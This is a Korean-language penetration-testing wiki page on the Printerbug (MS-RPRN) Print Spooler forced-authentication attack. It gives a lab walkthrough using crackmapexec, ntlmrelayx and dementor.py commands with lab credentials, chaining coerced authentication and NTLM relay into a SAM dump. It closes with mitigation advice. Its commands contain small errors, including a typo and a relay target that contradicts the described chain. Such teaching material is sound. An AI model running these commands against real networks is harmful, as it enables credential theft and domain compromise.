 # MS-RPRN - Printerbug / Print Spooler



![](../../.gitbook/assets/print-spooler-rpc.drawio\(3\).png)

Printerbug (프린터버그) / Print Spooler RPC 강제 인증은 타겟 서버에서 실행중인 Print Spooler 서비스의 `RpcRemoteFindFirstPrinterChangeNotificationEx` RPC 함수를 이용하는 공격이다. 공격은 다음과 같은 단계로 이뤄진다:&#x20;

1. 공격자는 취약한 RPC 함수 중 하나인 `RpcRemoteFindFirstPrinterChangeNotificationEx` 를 타겟 서버에게 요청한다. 이 함수는 타겟 서버에서 프린터와 관련된 변화가 일어날 시 클라이언트에게 알려주는 함수다.&#x20;
2. 서버가 클라이언트가 RPC 함수를 실행했다는 것을 인지한다.
3. `RpcRemoteFindFirstPrinterChangeNotificationEx`  함수가 제대로 실행되려면 서버에서 클라이언트로 인증하고 접근 한 뒤, 클라이언트에게 알림 설정을 해줘야한다. 이 설정을 하기 위해 서버는 스스로 (하지만 사실상 클라이언트가 함수를 실행했으니 "강제"로) 공격자 클라이언트에게 서버 머신 계정 + Net-NTLMv1/v2 해시가 포함된 사용자 인증 패킷을 보낸다.&#x20;
4. 공격자는 이 머신 계정의 사용자 인증 패킷을 Responder 와 같은 툴로 받는다.&#x20;
5. 이후 이 머신 계정 이름 + Net-NTLMv1/v2 해시를  가지고 릴레이 공격, 다운그레이드 공격, RBCD 공격 등의 다양한 공격을 진행한다.&#x20;

### 전제 조건&#x20;

* 타겟 서버의 Print Spooler 서비스가 작동중이여야한다 - 윈도우 서버와 워크스테이션 운영체제에서는 기본적으로 활성화 되어있다.
* 도메인 유저 계정/문맥이 필요하다.&#x20;

### 실습&#x20;

* **DC01.choi.local (192.168.40.150)** - choi.local 도메인의 도메인 컨트롤러. 끔찍하게도 다른 도메인 컨트롤러의 로컬 관리자 권한을 갖고 있다.&#x20;
* **DC1.pci.choi.local (192.168.40.160)** - pci.choi.local 도메인의 도메인 컨트롤러. 끔찍하게도 dc01.choi.local 에게 로컬 관리자 권한을 줬다.&#x20;

![](<../../.gitbook/assets/image (12) (4).png>)

도메인 컨트롤러가 다른 도메인의 도메인 컨트롤러 로컬 관리자 권한을 갖고 있는 것은 현실적이지 않은 시나리오다. 그와 동시에 실제 모의해킹 시 발견 가능성이 0%냐고 물어본다면 또 그렇지도 않은, 끔찍한 시나리오다.&#x20;

이번 실습에서는 dc01.choi.local에게 프린터버그 강제인증 -> NTLM 릴레이 -> dc1.pci.choi.local 의 SAM 덤프를 해본다.&#x20;

1.먼저 dc01.choi.local 이 프린터버그 에 취약한지, Spooler 서비스가 작동중인지 알아본다.&#x20;

```
cme smb dc01.choi.local -u low -p 'Password123!' -d choi.local -M spooler
```

![Enabled! Spooler 서비스/RPC가 작동중이다.](<../../.gitbook/assets/image (5) (2) (1).png>)

2\. 프린터버그 강제 인증을 실행하기 전, NTLM 릴레이를 먼저 세팅한다.&#x20;

```shell
python3 ntlmrelayx.py -t dc01.choi.local -smb2supportshel
```

3\. 프린터버그 강제 인증을 실행한다.&#x20;

```
python3 dementor.py -u low -p 'Password123!' -d choi.local 192.168.40.182 192.168.40.150
```

4\. 결과를 확인한다.&#x20;

dc01.choi.local (192.168.40.150) 에게 프린터버그 강제인증 실행 -> dc01의 머신계정 (`choi.local\dc01$`) 의 NTLM 인증 트래픽이 공격자 호스트에게 전달 -> 그것을 릴레이해서 dc1.pci.choi.local 에게 전달 -> `dc01.choi.local` 이 `dc1.pci.choi.local` 의 로컬 관리자 권한을 갖고 있었기 때문에 SAM 덤프.&#x20;

![](<../../.gitbook/assets/image (7) (3).png>)

### 대응 방안&#x20;

강제 인증 공격을 가능케 해주는 Print Spooler 서비스는 프린트를 위한 서비스다. 수만명의 대기업 IT 인프라를 담당하는 도메인 컨트롤러 서를 물리적으로 방문해서 프린트를 한 적은 없을 것이다. 어디 데이터센터에 있는 도메인 컨트롤러에 비행기를 타고 가서 프린트를 하는 시스템 어드민 또한 본 적이 없다.&#x20;

따라서 프린터버그 강제 인증을 막는 방법은 Spooler 서비스를 비활성화 시키는 것이다. 특정 기능을 비활성화 시키는 것은 고객사에게 잘 추천하지 않지만, 이 경우 진짜 도메인 컨트롤러에서 프린트를 하는 사람이 없기 때문에 비활성화해도 비즈니스 운영에 있어 아무런 영향을 미치지 않는다.&#x20;

&#x20;

![프린트는 프린터에서 - 도메인 컨트롤러는 소중하다.](<../../.gitbook/assets/image (4) (2) (1).png>)
